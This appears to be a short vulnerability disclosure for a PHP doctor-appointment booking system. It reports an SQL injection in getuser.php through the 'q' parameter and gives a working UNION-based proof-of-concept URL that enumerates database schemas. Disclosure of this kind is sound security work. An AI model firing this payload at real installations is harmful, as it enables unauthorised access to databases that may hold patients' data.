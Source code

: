 # Online Doctor Appointment Booking System PHP and Mysql 1.0   
* Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-doctor-appointment-booking-system-php-and-mysql/  
* Software Link: https://projectworlds.in/wp-content/uploads/2020/05/PHP-Doctor-Appointment-System.zip  
* Version: 1.0  
* vulnerability: An SQL injection vulnerability was discovered in PHP-Doctor-Appointment-System.  
* vulnerability file: In getuser.php file   
* parameter: GET parameter 'q' is vulnerable.    
* Vulnerable code:   
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/006.png)
* POC  
payload:  http://localhost/[PATH]/getuser.php?q=1%27%20UNION%20ALL%20SELECT%20NULL%2CCONCAT%280x7162717671%2CIFNULL%28CAST%28schema_name%20AS%20NCHAR%29%2C0x20%29%2C0x7176627871%29%2CNULL%2CNULL%2CNULL%2CNULL%20FROM%20INFORMATION_SCHEMA.SCHEMATA%23  
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/002.png)  
* SQL map:  
![image](https://github.com/BigTiger2020/Online-Doctor-Appointment-Booking-System-PHP/blob/main/004.png)  
